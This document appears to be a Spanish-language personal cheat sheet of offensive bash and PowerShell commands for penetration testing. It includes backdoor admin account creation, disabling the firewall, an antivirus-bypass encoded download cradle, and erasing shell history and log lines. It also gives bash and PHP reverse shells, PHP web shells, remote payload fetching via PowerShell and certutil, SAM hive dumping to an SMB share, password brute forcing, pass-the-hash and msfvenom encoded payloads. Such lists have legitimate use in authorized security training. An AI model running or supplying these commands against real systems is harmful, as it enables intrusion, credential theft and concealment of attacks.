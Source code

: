 # Notas bash/powershell
## Ayuda memoria con comando en bash/powershell

-----Powershell-----
net user USUARIO PASSWORD /add --> crea una cuenta "usuario" con password "pass123"
net localgroup administradores USUARIO /add --> agrega al usuario "usuario" al grupo administradores
net share NAME=C:\ /GRANT:sistemas,FULL --> comparte una carpeta (C:\) con el nombre NAME y le concede todos los permisos al usuario 
copy \\IP\SHARE\FILE FILE
plink.exe -l "user" -pw "pass" -R port:127.0.0.1:port

-----Firewall-rules-----
netsh advfirewall firewall add rule name=NAME protocol=PROTO dir=in localport=PORT action=allow
netsh advfirewall firewall add rule name=NAME protocol=PROTO dir=out localport=PORT action=allow
netsh advfirewall firewall set allprofiles state off
netsh advfirewall firewall delete rule name=NAME

-----Activar-RDP-----
reg add "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f

-----AV bypass-------
A>echo "IEX(New-Object Net.WebClient).DownloadString('http://192.168.0.6:8000/attack.txt')" | iconv --to-code UTF-16LE | base64 -w 0
V>powershell -EncodedCommand "base64-string"

----History----
export HISTTIMEFORMAT='%F %T '
export HISTFILE=/dev/null
shopt -s HISTAPPEND

----Bash-----
ln -s -f /dev/null .bash_history

cat /etc/login.defs | grep "ENCRYPT_METHOD"
cat file | tr '[A-Z]' '[a-z]'
cat file | grep ::: | awk -F: '{print $1":"$4}'
cat file | grep -a string | awk '{print $2}' | awk -F@ '{print $1}'
cat file | xclip -sel clip
cat file | sed 's/ /+/g'
cat nmap.grep | grep -oP '\d{1,5}/tcp.*'
cat /proc/net/tcp | awk '{print $2}'| sort -u | grep -v "local" | awk '{print $2}' FS=':'

time find . -type f -iname "*.txt" | grep -v "local"
find \-name *config*.php | xargs cat | grep -i -E "db-pass|db-user"
find . -type d -exec touch {}/FILE \;
find . | grep exe$
find \-user user 2>/dev/null | grep -vE 'proc|config'
find . -ls -type f
find . -type d | while read DIRECTORY; do echo ${DIRECTORY} | grep php; done

tr '\n' ',' < tplinkList.txt
tr -d '\"' | tr ';' '\n'

sed -i '/192\.168\.0\.1/d' /var/log/messages.log --> elimina todas las lineas que contienen la ip

uname -a | nc 10.8.23.159 9000

mkfifo input; tail -f input | /bin/sh 2>/dev/null > output
arp-scan --interface INTERFACE ip/cidr
arp-scan -q -l --interface INTERFACE | grep -i "MAC"
rlwrap nc -lnvp 'port'

awk '{print "https://" $1}'
awk '{print $1 ".yahoo.com"}'

xargs -n1 -P10 ./sh
ping -c ip -R // muestra ruta del ping hasta el destino
kill -9 $(jobs -p) 
hostname -I
cut -d; -f3 < !$
wget -r ftp://user@ip
wget -r --no-parent URL --reject="STRING"
watch -d ls /var

touch {/folder1/,./}file.{exe,dll,txt}
evil-winrm -i IP -u USER -p PASS
xfreerdp /u:USUARIO /p:PASSWORD /size:1366x768 /f /v:10.16.22.103

echo 'b64-string' | base64 -d | xxd -ps -r; echo
echo !:2-3 -->rango de argumentos
echo !$ --> ultimo argumento
echo !^ --> primer argumento
echo !* --> todos los argumentos

curlftpfs user:pass@ip $(pwd)
curlftpfs -o allow_other user:pass@ip $(pwd)
curl -# --upload-file -F file=@FILE URL
curl -U "user" --referer URL-SRC URL-DST

openssl password
davtest -url http://10.10.169.131/webdav -auth wampp:xampp -uploadfile shell.php -uploadloc DavTestDir_tWNxgBo7pob5I2h

-----iptables-------
iptables -I DOCKER-USER -i "int" -p tcp --dport "port" -j DROP --> nmap filtered 
iptables -A INPUT -i "int" -p tcp --dport "port" -j REJECT --> nmap closed
iptables -A INPUT -i "int" -p tcp --dport "port" -j REJECT --reject-with tcp-reset --> nmap closed y no aparece en escaneo
iptables -A INPUT -p tcp --dport 22 -j ACCEPT
iptables -A INPUT -p tcp --dport 80 -j ACCEPT
iptables -A INPUT -p tcp --dport 443 -j ACCEPT
iptables -A INPUT -s 192.168.1.104 -j ACCEPT --> acepta solo tráfico de la siguiente IP
iptables -A INPUT -s 192.168.1.102 -j DROP --> bloquea tráfico de la siguiente IP
iptables -A INPUT -p icmp -i eth0 -j DROP --> bloqueo de ping en la interface

-----SSH--------
ssh -R REMOTE_PORT:127.0.0.1:LOCAL_PORT user@REMOTE-IP -fNT --> para no abrir tty en equipo remoto
ssh -L LOCAL_PORT:REMOTE_IP:REMOTE_PORT user@REMOTE-IP

------Host-recon-----
nmap -p1-10 IP --reason // muestra el estado del puerto 
nmap --script="ssl*" IP
nmap --script="rdp-vuln-ms12-020"
nmap -top-ports 5000 --open -T5 -sU IP -oN scanUDP
nmap -p445 --scripts "vuln and safe" IP -oN vuln.nmap
nmap --script smb-enum-share -p PORTS IP
 
wpscan -e u,vp --url "http://ip" --proxy http://127.0.0.1:8080 
smbget -R smb://IP/FOLDER -U USER
smbclient -N //IP -c "DIR"
smbclient -L //IP -L
smbclient -L //IP/FOLDER --option='client min protocol=NT1' -N
rpcclient -u '' -c "enumdomusers" -N

------Brute-force-------------
ncrack -vv -U "user.lst" -P "pass.lst" ip:port
hydra -L "user.lst" -V -x '6:8aA1!@#$' ip ssh --> hydra crea su diccionario para ataque con números, min+may, simbolos
hydra -l chris -P /usr/share/wordlists/rockyou.txt ftp://10.10.137.91:21 -vV
hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.10.179.73 http-post-form "/login:username=^USER^&password=^PASS^:F=incorrect" -vV
hydra -l molly -P /usr/share/wordlists/rockyou.txt ssh://10.10.179.73
hashcat --user -m 1000 hash lst -r rules/InsidePro-PasswordsPro.rule -r rules/base64.rule
hashcat --examples-hashes | grep 'mode'
hashcat --force --stdout dictionario.lst -r /usr/share/hashcat/rules/best64.rule
zip2john 8702.zip
fcrackzip -D -u -p /usr/share/wordlists/rockyou.txt 8702.zip
wfuzz -c -L --hc=404 -w WORDLIST TARGET --> L=recursivo 
wfuzz -c --hc=404 -w WORDLIST -w WORDLIST2 url/FUZZ/FUZ2Z
ffuf -c -w WORDLIST -u URL
crunch 15 15 -t STRING+pattern --> pattern @lowercase ,uppercase %numbers ^symbols

------Samba-recon---------
crackmapexec smb ip --pass-pol -u 'user' -p 'pass'
crackmapexec smb ip -u 'user' -p 'pass'
crackmapexec smb ip -u 'user' -p 'pass' -M mimikatz
crackmapexec smb ip -u 'user' -p 'pass' --shares
crackmapexec smb ip -u 'user' -p 'pass' --lsa
crackmapexec smb ip -u 'user' -p 'pass' --sam
crackmapexec smb ip -u 'user' -p 'pass' -x 'CMD'
crackmapexec smb ip -u 'user' -H 'hash' -x 'CMD'
crackmapexec smb ip -u LIST -p PASS --continue-on-success
crackmapexec smb ip -u DICT -p DICT

impacket-smbserver testingSMB $(pwd) -smb2support -u USUARIO -p PASSWORD
psexec.py 'user_ssh:pass_ssh'@'ip' "C:\plink.exe -batch -hostkey 'hostkey' -N -R 9090:127.0.0.1:3389 'IP_A' -P 1473 -l 'USUARIO' -pw 'PASSWORD_A'"
psexec.py 'user:pass@ip'
psexec.py WORKGROUP/user:pass@ip CMD
smbmap -H host -u 'null'
smbcalcs //IP/COMPARTIDA carpeta -N 
pth-winexe -U domain/user%pass //IP CMD
pth-winexe -U domain/user%hash //IP CMD

------Powershell shares------
PS> $pass=convertto-securestring 'pass' -AsPlainText -Force
PS> $pass 
PS> $creds=New-Object System.Management.Automation.PSCredential('user', $pass)
PS> $creds 
PS> New-PSDrive -Name NAME -PSProvider FileSystem -Credential $creds -Root \\IP\COMPARTIDA
PS> cd COMPARTIDA:

-----bash oneLiners-----
for i in admin dev test backup; do gobuster -u "url"/$i -w "wordlist" -t -o outputFile$i.txt; done
for i in {1..20}; do curl http://192.168.46.5/users/$i 2>&1 | grep "s page</h1>" | cut -f2 -d '>' | cut -f1 -d \' ;done //enumeración de users
for i in $(seq 1 10); do ping -c 1 mnba-biblio-0$i; done
for i in $(cat dictionario.lst); do echo $i; echo ${i}\!; done
for x in port port port; do nmap -Pn --max-retries 0 -p $x ip; done
while read SHAREDFOLDER; do echo "===${sharedFolder}==="; smbclient "//ip/${sharedFolder} -N -c dir; echo; done"
while read line;do echo $line; done | xargs ls -l

--------SAM dump---------------
reg save HKLM\SAM sam.backup
reg save HKLM\SYSTEM system.backup
copy sam.backup \\IP\smbfolder\sam
copy system.backup \\IP\smbfolder\system
pwdump system sam

-----tty upgrade------
python -c 'import pty; pty.spawn("/bin/bash")'
V>ctrl-Z --> background sesion
A>stty size
A>stty raw -echo
A>fg 1 --> foreground sesion
V>stty row "x" cols "x"

----tty-interactive-----
script /dev/null -c  bash
bash -i >& /dev/tcp/ip/puerto 0>&1
mkfifo input; tail -f input | /bin/bash > output

----PowerShells-----
powershell.exe -ep -Bypass -nop -noexit -c IEX"(New-Object Net.WebClient).downloadstring('http://ip/file')
powershell.exe -c "(New-Object System.Net.Webclient).DownloadFile('http://ip/file', 'c:\Users\user\file')"
Invoke-WebRequest "http://ip/file" -OutFile "c:\Users\file"
certutil.exe -f -urlcache -split http://ip/file file

-----php-------
<?php system($_GET['cmd']);?>
<?php system('ls -la');?>
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/10.0.0.10/1234 0>&1'");
<?php system("wget http://ip/file -o /tmp/file.php; php /tmp/file.php");?>
<?php echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";?>

----Tmux----------
tmux new -s "nombre"
tmux kill-window -t "n"
prefix + space --> mueve los paneles
prefix + q --> muestra los IDs de los paneles
prefix + x --> cierra los paneles
prefix + ! --> mueve el panel activo a una nueva ventana
prefix + [ + / --> para buscar texto

----Tmux copy mode-----
prefix + [ 
prefix + space
prefix + w
prefix + ]
----------

----msfvenom----
msfvenom -p windows/meterpreter/reverse_tcp LHOST=IP LPORT=IP -e x86/shikata_ga_nai -i 10 -f raw > FILE.bin
msfvenom -p java/jsp_shell_reverse_tcp LHOST=IP LPORT=IP -f raw

----mysql----
mysql -u USER -p PASS -P CMD
mysqlshow -u USER -p PASS DATABASE TABLES
mysqldump -u USER --password=PASS --single-transaction --all-databases
mysqldump -u USER --password=PASS --no-data TABLES
sqlmap -u URL --method POST --data "username=FUZZ&password=" -P username --dbs --dbms mysql --level 2
